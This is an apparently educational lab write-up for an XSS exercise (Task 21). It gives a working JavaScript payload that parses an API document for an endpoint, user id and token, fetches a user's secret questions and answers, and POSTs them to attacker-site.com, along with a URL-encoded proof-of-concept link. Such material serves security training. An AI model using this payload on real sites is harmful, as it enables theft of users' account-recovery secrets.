 ## Task 21 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/21)</small>

Objectives:

1. Find John's Secret Questions+Answers using an XSS vulnerability on this page
1. Display the Questions+Answers in the div with id "result"
1. Send the Questions+Answers to your Attack Server
1. No Hardcoded values can be used - everything has to be figured out dynamically

When you will see the API documentation, it is basically in XML and as per 4<sup>th</sup> point, everything should be dynamic.

So the regex that would be used are **`/<endpoint>(.+?)<\/endpoint>/`**, **`/<uid-param-value>(.+?)<\/uid-param-value>/`** and **`/<token-param-value>(.+?)<\/token-param-value>/`**

```js
let xhr = new XMLHttpRequest();

xhr.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    let ep = /<endpoint>(.+?)<\/endpoint>/.exec(this.responseText)[1];
    let uid = /<uid-param-value>(.+?)<\/uid-param-value>/.exec(this.responseText)[1];
    let tok = /<token-param-value>(.+?)<\/token-param-value>/.exec(this.responseText)[1];

    let xhr1 = new XMLHttpRequest();
    xhr1.onreadystatechange = function () {
      if (this.readyState == 4 && this.status == 200) {
        let xhr2 = new XMLHttpRequest();
        xhr2.open("POST", "http://attacker-site.com", true);
        xhr2.setRequestHeader("Content-Type", "application/json");
        xhr2.send(this.responseText);
      }
    };

    xhr1.open("GET", location.origin + ep + "?uid=" + uid + "&token=" + tok, true);
    xhr1.send();
  }
};

xhr.open("GET", document.querySelector("a").href, true);
xhr.send();
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/21?url=%3Cscript%3Elet%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhr.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20let%20ep%20%3D%20%2F%3Cendpoint%3E%28.%2B%3F%29%3C%5C%2Fendpoint%3E%2F.exec%28this.responseText%29%5B1%5D%3B%0A%20%20%20%20let%20uid%20%3D%20%2F%3Cuid-param-value%3E%28.%2B%3F%29%3C%5C%2Fuid-param-value%3E%2F.exec%28this.responseText%29%5B1%5D%3B%0A%20%20%20%20let%20tok%20%3D%20%2F%3Ctoken-param-value%3E%28.%2B%3F%29%3C%5C%2Ftoken-param-value%3E%2F.exec%28this.responseText%29%5B1%5D%3B%0A%0A%20%20%20%20let%20xhr1%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20xhr1.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20%20%20%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20%20%20%20%20let%20xhr2%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20%20%20%20%20xhr2.open%28%22POST%22%2C%20%22http%3A%2F%2Fattacker-site.com%22%2C%20true%29%3B%0A%20%20%20%20%20%20%20%20xhr2.setRequestHeader%28%22Content-Type%22%2C%20%22application%2Fjson%22%29%3B%0A%20%20%20%20%20%20%20%20xhr2.send%28this.responseText%29%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%3B%0A%0A%20%20%20%20xhr1.open%28%22GET%22%2C%20location.origin%20%2B%20ep%20%2B%20%22%3Fuid%3D%22%20%2B%20uid%20%2B%20%22%26token%3D%22%20%2B%20tok%2C%20true%29%3B%0A%20%20%20%20xhr1.send%28%29%3B%0A%20%20%7D%0A%7D%3B%0A%0Axhr.open%28%22GET%22%2C%20document.querySelector%28%22a%22%29.href%2C%20true%29%3B%0Axhr.send%28%29%3B%3C%2Fscript%3E)
